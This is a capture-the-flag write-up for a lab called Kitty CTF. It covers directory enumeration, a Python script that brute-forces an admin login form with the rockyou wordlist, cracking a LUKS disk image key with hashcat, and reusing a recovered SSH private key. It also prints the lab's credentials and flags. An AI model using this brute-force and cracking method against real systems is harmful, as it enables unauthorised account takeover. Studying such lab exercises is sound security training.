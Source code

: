 ```yaml
---
title: Kitty CTF
description: Processus made a CTF
---
```


# Kitty CTF

This CTF is from [ProcessusThief](https://twitter.com/ProcessusT).

## Enumeration :

After completing the captcha and deploying the docker I used **dirb** to find hidden directories.

```text
/support
   └─> index.php
```

## Brute-forcing

The `index.php` file contained a formular so I first checked if an SQL injection was possible, unfortunatly it wasn't. I then tried a simple brute-force attack with python. Here's the program I made :

```py
import requests

wl = open("/media/HDD/Hacking/wordlist/rockyou.txt","r", encoding='latin-1') # assuming you have downloaded the rockyou
wl = [x.replace('\
','') for x in wl.readlines()]
i = 0

while True:
    r = requests.post('http://51.91.141.245:45272/support/index.php', data={'username': 'admin', 'password': wl[i]})
    if 'Incorrect username or password' not in r.text:
        print(r.text, wl[i])
    print(i)
    i += 1
```

The script quickly found the password :
|username|password|
|-|-|
|admin|zxcvbnm|

## SSH access

After connecting I was greeted with a homepage containing multiple **pdf** files.
In one of them I got the ssh password along with a user and with the first flag:
**`FL4G{k1tty-0n3-G@r1z0v}`**
|username|password|
|-|-|
|garizov|Russkaya_R0d1na|

Once on the machine I found a note left by `castillo` (another user) saying that he had plugged a USB drive containing encrypted data.
I then headed to the `/media` directory and found a `richard.img` file.

## Decryption

Having very limited knowledge in cryptography I will try to stay as precise as possible :sweat_smile:.
Using **binwalk** I found these informations :

```text
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             LUKS_MAGIC version 0x1 aes sha256
```

Then I checked on [hashcat-example](https://hashcat.net/wiki/doku.php?id=example_hashes) to see if hashcat could decrypt **LUKS** partition, luckily it could.
So I used **hashcat** to crack the img's encryption key :
`key : angels`

After mounting the img file I found it contained an `id_rsa` file, which turned out to be **castillo's SSH private key**.

## SSH access #2

I connected as user castillo with his private key and got the last flag : **`FL4G{Kitty-two_W3_W1LL_C4TCH_TH3M_4LL}`**

<br>

### Thanks for reading :)
